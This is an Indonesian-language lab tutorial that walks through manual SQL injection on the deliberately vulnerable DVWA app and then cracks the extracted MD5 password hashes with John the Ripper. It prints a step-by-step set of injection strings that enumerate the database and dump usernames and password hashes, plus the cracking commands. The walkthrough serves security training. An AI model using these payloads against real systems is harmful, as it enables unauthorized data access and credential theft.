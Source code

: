 ### SQL Injection manual dan John the Ripper

* Apa itu SQL Injection?
  * SQL injection adalah teknik yang sering digunakan untuk menyerang aplikasi berbasis data.
  * Teknik ini dilakukan dengan menyisipkan sebagian statemen SQL ke dalam field dalam sebuat website untuk menjalankan perintah ke dalam database. SQL Injection adalah teknik yang memanfaatkan kelemahan keamanan dalam software aplikasi. 
* Apakah yang disebut dengan SQL Injection Harvesting?
  * SQL Injection Harvesting is where a malicious user supplies SQL statements to render sensitive data such as usernames, passwords, database tables, and more.
  * SQL Injection Harvesting adalah keadaan dimana pengguna memasukkan statement sql untuk mendapatkan data sensitif seperti username, password, tabel database, dan lainnya. 
* Lab Notes
  * Dalam lesson ini kita akan melakukan:
    1. Menyisipkan 'always true' sql statement ke dalam fiel sql injection user id dengan tingkat keamanan rendah.
    2. Mendapatkan username dan password dengan format raw-MD5 dari tabel users.
    3. Menggunakan John the Ripper untuk memecahkan password berformat raw-MD5.

| **Section 1: Login ke dalam DVWA** |
| :--- |


1. Buka browser

2. Login ke DVWA

   * Langkah**:**
     1. Buka firefox
     2. Masukkan ip metasploitable, contoh: [http://192.168.56.102/dvwa/login.php](http://192.168.56.102/dvwa/login.php).
     3. Login: admin
     4. Password: password
     5. Klik Login
   * ![](/assets/0. Login.PNG)

| **Section 2: Tetapkan Tingkat Keamanan** |
| :--- |


1. Tetapkan tingkat keamanan DVWA

   * Langkah**:**  
     1. Klik bagian DVWA Security di menu bagian kiri.  
     2. Pilih "low"  
     3. Klik Submit

   * ![](/assets/0. Security.PNG)

| **Section 3: Lakukan SQL Injection** |
| :--- |


1. Menu SQL Injection

   * **Langkah:**
     1. Pilih "SQL Injection" dari menu bagian kiri.
   * ![](/assets/0.2. sql injection .PNG)![](/assets/0.1. sql injection .PNG)

2. Injection dasar

   * **Langkah:**
     1. Masukkan "1" ke dalam text box.
     2. Klik Submit.
     3. Akan terlihat informasi user dengan id 1.
   * ![](/assets/1. Manual injection.PNG)

3. Always True Scenario

   * **Langkah:**
     1. Masukkan text di bawah ke User ID Textbox.
        * `%' or '0'='0`
     2. Klik Submit
   * ![](/assets/1.1 Always true condition.PNG)

4. Menampilkan versi database

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' or 0=0 union select null, version() #`
     2. Klik Submit
   * ![](/assets/1.2 database version.PNG)

5. Menampilkan user dari database

   * Langkah**:**  
     1. Masukkan text di bawah ke dalam User ID Textbox.

     * `%' or 0=0 union select null, user() #`

   * ![](/assets/1.3 Display Database User.PNG)

6. Menampilkan nama dari database

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' or 0=0 union select null, database() #`
   * ![](/assets/1.4 display database name.PNG)

7. Menampilkan semua tabel dalam information\_schema

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' and 1=0 union select null, table_name from information_schema.tables #`
     2. Klik Submit
   * ![](/assets/1.5 Display all the user tables in information_schema.PNG)

8. Menampilkan semua tabel user di dalam information\_schema

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#`
     2. Klik Submit
   * ![](/assets/1.7 Display all the columns fields in the information_schema user table.PNG)

9. Menampilkan semua field kolom dalam tabel user di information\_schema

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`
     2. Klik Submit
   * ![](/assets/1.7 Display all the columns fields in the information_schema user table.PNG)

10. Menampilkan semua kolom field pada tabel user di kolom information\_schema.

    * **Langkah:**
      1. Masukkan text di bawah ke dalam ID Textbox.
         * `%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`
      2. Klik Submit
    * ![](/assets/1.8 Display all the columns field contents in the information_schema user table.PNG)

| **Section 4: Membuat file hash password** |
| :--- |


1. Membuat file hash password

   * **Langkah:**

     1. Highlight admin dan hash password

     2. Klik kanan

     3. Copy

   * ![](/assets/2.1 Create Password Hash File.PNG)

2. Simpan dalam file

   * **Langkah:**

     1. Simpan dalam file dengan format user:password\_hash  
            Contoh:  
                admin:5f4dcc3b5aa765d61d8327deb882cf99

     2. Simpan file

   * ![](/assets/2.2 save password in text.PNG)

| **Section 5: Menggunakan John the Ripper** |
| :--- |


1. Proof of Lab
   * **Langkah:**
     1. Buka terminal baru
     2. `cd /pentest/passwords/john`
     3. `./john --format=raw-MD5 dvwa_password.txt`
     4. Password akan di crack
     5. Untuk menampilkan password yang sudah di crack lakukan perintah seperti di bawah:
        ```
        john -show -format=raw-MD5 dvwa_password.txt
        ```
   * ![](/assets/3. Hasil Akhir.PNG)



